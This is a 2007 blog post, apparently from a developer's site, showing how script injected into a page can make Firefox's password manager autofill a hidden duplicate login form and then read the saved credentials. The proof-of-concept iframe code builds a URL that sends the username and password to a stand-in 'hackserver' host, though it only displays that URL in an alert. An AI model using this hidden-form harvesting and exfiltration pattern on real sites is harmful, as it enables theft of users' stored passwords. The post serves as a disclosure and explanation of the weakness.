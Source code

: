 ```yaml
---
title: Demonstrating Password Manager Almost Vulnerability in FireFox
date: 2007-07-28
tag:
- javascript
- security
---
```

The "security guys" have been talking about the problems with FireFox's password manager and I got curious.  It turns out that javascript can access saved passwords in your password manager simply by creating a login form and capturing the input field's contents.  

<!--more-->

While this isn't necessarily a vulnerability in FireFox, it does suck!  The biggest attack vector is websites that allow user submitted content that have script injection holes.  Basically, if a third party can create a form and insert some javascript on the page, they will be 'acting' to the browser as if they're a legitimate part of the site.  Let's check out a proof of concept:

First off, we have legitimate site here with its login form:

{{< filename-header "index.php" >}}
```html
<h1>Log In:</h1>

<form action="login.php" name="login" method="post">
  Username: <input type="text" name="username"></input><br></br>
  Password: <input type="password" name="password"></input><br></br>
  <input type="submit"></input>
</form>
```

And then we process the login (which allows firefox to save the password) and redirect to a standard page.

{{< filename-header "login.php" >}}
```php
/**
 * yay logged in
 */
die(header("Location: loggedin.php"));
```

and my logged in page.

{{< filename-header "loggedin.php" >}}
```html
You're logged in now.

<a href="index.php">Log in again</a><br></br>
<a href="hack.php">Hack it</a>
```

As you can see, we can go back to the index.php page with the login form to verify that the password manager has saved our password.

Let's move on to the hack.php page which is the page that had a vulnerability that allowed the third party to insert some content.

{{< filename-header "hack.php" >}}
```html
Here is a normal page.  Don't feel scared.

<iframe src="iframe.php" style="visibility: hidden"></iframe>
```

In theory, you'd have to also have a file named iframe.php on the same server.  I just separated it to keep the code separate.  In a real life example, we'd be inserting the content of iframe.php inside of a div so it runs directly from that server.  But anyways...

The evil code:

{{< filename-header "iframe.php" >}}
```html
<html>
  <body onload="stealit()">
    <form action="login.php" name="login" method="post">
      Username: <input type="text" name="username"></input><br></br>
      Password: <input type="password" name="password"></input><br></br>
    </form>
    <script>
      function stealit()
      {
        var username=document.login.username.value;
        var password=document.login.password.value;
        
         alert(
           "I am gonna do this:  self.location.href='http://hackserver.php?username=" 
           + username + "&amp;password=" + password + "'"
         );
      }
    </script>
  </body>
</html>
```

As you see, this makes an identical login form so that Firefox fills it in (firefox is doing its job! Don't be tooo mad).  Then, my script could go and make a request at a remote server with the username and password using ajax or loading an image or anything really.  (Here I just alert it.)

While I'm excited to see what Firefox is going to do to help stop this type of issue, I'm not mad and don't really think its that much of a bug.  When you use password manager, you KNOW what its going to do.
